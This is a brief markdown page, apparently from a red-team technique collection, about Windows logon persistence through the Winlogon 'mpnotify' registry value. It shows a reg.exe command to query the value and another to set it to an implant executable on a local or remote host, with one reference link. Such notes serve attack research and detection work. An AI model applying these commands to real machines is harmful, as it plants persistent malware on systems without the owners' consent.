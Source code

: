 # WinLogon

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v mpnotify
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /t REG_SZ /v mpnotify /d "C:\path\to\implant.exe" /f
```

---
## References

- [Persistence Info: MPNotify](https://persistence-info.github.io/Data/mpnotify.html)